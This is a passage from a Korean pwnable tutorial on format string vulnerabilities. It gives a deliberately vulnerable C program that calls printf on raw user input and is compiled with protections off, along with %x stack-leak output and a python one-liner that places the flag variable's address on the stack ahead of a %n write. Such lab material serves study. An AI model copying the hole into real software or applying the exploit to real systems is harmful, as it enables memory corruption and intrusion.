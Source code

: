 1238이 출력되는 이유는 `AAAA+&num(4)` 까지 8바이트가 존재하기 때문이다. 1230 만큼과 8바이트 만큼의 출력 길이가 num 변수에 저장되어 위와 같은 결과를 가져오는 것이다.

## [+] Training 1

```c++
#include <stdio.h>
#include <string.h>
 
int main() {
    char flag[] = "0";
    char buf[20];
    fgets(buf, sizeof(buf), stdin);                          
    printf(buf);
    printf("%p\n",&flag);
    if(!strcmp(flag,"1")) {
        printf("Complete\n");
    }
}

```

```
root@shh0ya-Linux:~/pwn/fsb# gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack -no-pie exam.c -o exam -w
```

간단한 코드다. 단 `strcmp`를 통해 `flag` 변수의 값이 `"1"`(0x31,49) 가 되어야 `Complete` 라는 문자열이 출력된다.
이 코드로 연습을 해본다.

```
root@shh0ya-Linux:~/pwn/fsb# ./exam
AAAA %x %x
AAAA 414133dc 25204141
ffffd5f6
```

`"AAAA %x %x"` 입력 시 위와 같은 결과를 볼 수 있다. 자 `flag`의 주소를 출력하도록 해놨으므로 해당 주소를 이용하여 변수의 값을 변조해본다.

현재 4바이트의 더미 값을 입력하였더니 두 개의 메모리에서 나누어 출력되었다. 그렇다면 첫 번째 서식에서 출력 된 `414133dc` 에서 `33dc` 는 기존의 어떤 값이고, 해당 값 다음부터가 변수의 시작 주소라고 볼 수 있다.

변조를 하기 위해 2바이트의 더미를 입력하고, `flag` 의 주소를 입력해본다.

```
root@shh0ya-Linux:~/pwn/fsb# (python -c 'print "AA\xf6\xd5\xff\xff %x %x"'; cat)|./exam
AA󗀿 414133dc ffffd5f6
ffffd5f6
```

위와 같이 내가 원하는 위치에 특정 주소를 입력했다. 그러면 이제 `%n` 서식을 이용하여 내가 원하는 값을 해당 주소에 복사하면 된다.

### [-] Point

`printf` 함수는 내부적으로 매우 복잡하게 되어있다. 한 글자씩 가져와 그냥 문자인지, 포맷스트링인지도 확인한다.
이 때 `%` 문자를 만나게 되면 다음 문자를 가져와 `d, x, X, n, s ...` 등인지 확인하고 서식에 맞는 로직을 타게 된다. 
